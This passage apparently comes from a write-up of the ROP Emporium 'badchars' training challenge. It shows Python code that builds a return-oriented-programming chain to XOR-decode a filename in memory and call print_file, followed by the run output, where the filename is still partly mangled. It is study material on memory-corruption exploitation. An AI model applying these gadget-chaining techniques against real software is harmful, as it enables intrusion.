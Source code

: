 Alright, so at this point we have our string in memory. Now we need to perform the XOR operation on the string to get it back to a readable state. This means applying the exact same operation on each byte in memory. Instead of being idiots and hardcoding eight almost identical operations, we can just write a helper function for it.

```python
# generate an xor operation for an offset from data's address
def generate_xor_operation(offset):
    op = bytes()
    # ret to pop r14 and r15 gadget
    op += POP_R14_R15_GADGET
    # pop the xor key into r14
    op += p64(XOR_KEY)
    # pop the address with offset into r15
    op += p64(DATA_ADDR + offset)
    # ret to the operation
    op += XOR_R15_R14B_GADGET

    return op

# generate our string of xor operations
for i in range(8):
    payload += generate_xor_operation(i)
```

At this point, our string has been deobfuscated and what's left to do is trivial:

```python
# ret to pop rdi
payload += POP_RDI_GADGET
# pop data address into rdi (param to print_file)
payload += p64(DATA_ADDR)
# ret to print file
payload += PRINT_FILE

# oops, too much ROP for today
assert len(payload) <= 0x200, "payload is too long"

conn = process()
conn.recvuntil(b"> ")
conn.send(payload)

print(conn.recvall())
```

Running it, we get:

```text
$ python exploit.py

[*] '/home/sammy/Projects/binexp/ropemporium/5-badchars/badchars'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
    RUNPATH:  b'.'
[+] Starting local process '/home/sammy/Projects/binexp/ropemporium/5-badchars/badchars': pid 43268
[+] Receiving all data: Done (41B)
[*] Process '/home/sammy/Projects/binexp/ropemporium/5-badchars/badchars' stopped with exit code 1 (pid 43268)
b'Thank you!\nFailed to open file: flag.t\x9dt\n'
```

